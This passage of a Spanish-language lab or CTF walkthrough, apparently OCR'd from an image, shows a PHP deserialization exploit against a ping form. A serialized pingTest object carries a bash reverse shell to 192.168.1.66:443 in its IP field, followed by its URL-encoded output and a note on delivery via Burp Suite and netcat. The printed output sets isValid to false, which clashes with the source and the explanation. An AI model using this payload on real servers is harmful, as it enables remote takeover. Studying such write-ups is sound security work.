 ```bash
		    <div class=\"col-md-12\">
			<input name=\"obj\" type=\"hidden\" value=\"\">
		       <input class=\"form-control\" type=\"text\" name=\"ip\" placeholder=\"IP Address\" required>
		    </div>
		<br />
		    <div class=\"form-button mt-3\">
			<input type=\"submit\" value=\"Ping!\">
			<br /><br /><textarea>$pingTest->output</textarea>
		    </div>
		</form>
	    </div>
	</div>
    </div>
</div>
</div>
</body>
</html>";

?>
```

Acción: 

```bash
nvim serialize.php
```

Resultado:

```lua
<?php

class pingTest {
	public $ipAddress = "; bash -c 'bash -i >& /dev/tcp/192.168.1.66/443 0>&1'";
	public $isValid = True;
  public $output = "";
}

echo urlencode(serialize(new pingTest));
```

Acción:

```bash
php serialize.php 2>/dev/null; echo
```

Resultado:

```bash
O%3A8%3A%22pingTest%22%3A3%3A%7Bs%3A9%3A%22ipAddress%22%3Bs%3A53%3A%22%3B+bash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.1.66%2F443+0%3E%261%27%22%3Bs%3A7%3A%22isValid%22%3Bb%3A0%3Bs%3A6%3A%22output%22%3Bs%3A0%3A%22%22%3B%7D
```

Explicaicón: ahora podemos pegar para enviar por BurpSuite este objeto que tiene como *True* los campos necesarios para saltar la sanitización que vimos en el código. Al escuchar con `netcat` obtendremos una reverse shell
